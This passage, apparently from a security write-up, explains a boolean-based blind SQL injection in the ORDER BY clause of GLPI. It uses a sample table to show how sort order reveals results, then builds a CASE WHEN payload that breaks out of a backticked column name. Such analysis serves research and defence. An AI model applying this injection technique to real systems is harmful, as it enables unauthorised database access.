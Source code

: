 then doing `SELECT * FROM users ORDER BY age,gender ASC` would return this (Charlie goes first because he is younger, and then Alice takes the second place because F goes before M):

| id | name    | age | gender | address         |
|----|---------|-----|--------|-----------------|
| 3  | Charlie | 18  | M      | 255.255.255.255 |
| 1  | Alice   | 19  | F      | 127.0.0.1       |
| 2  | Bob     | 19  | M      | ::1             |

and `SELECT * FROM users ORDER BY gender,age ASC` would return this (Alice goes first because F goes before M, and Charlies takes the second place because he is younger than Bob):

| id | name    | age | gender | address         |
|----|---------|-----|--------|-----------------|
| 1  | Alice   | 19  | F      | 127.0.0.1       |
| 3  | Charlie | 18  | M      | 255.255.255.255 |
| 2  | Bob     | 19  | M      | ::1             |

Based on the query that we logged earlier, we know that we inject here:

```sql
ORDER BY `ITEM_Computer_{input}` ASC
```

We must therefore close the column name with a number and a backtick, then add another column name depending on the result of our boolean question, and finally add a backtick and a third column name to properly inject. Fortunately, the `ORDER BY` clause accepts the `CASE ... WHEN ... THEN` structure, like this:

```sql
ORDER BY
    `ITEM_Computer_40`,
    (
        CASE
            WHEN 1=0 THEN
                `glpi_computers`.`id`
            ELSE
                `glpi_computers`.`name`
        END
    ),
    `glpi_computers`.`is_recursive`
ASC
```

The idea was to select as the first column something that would be the same for at least two elements, so that the second column would apply (and the latter must contain different values to make the sorting different). If the condition is true, then the sorting applies on `glpi_computers`.`id`, otherwise it would be on `glpi_computers`.`name`. The third column does not really matter.
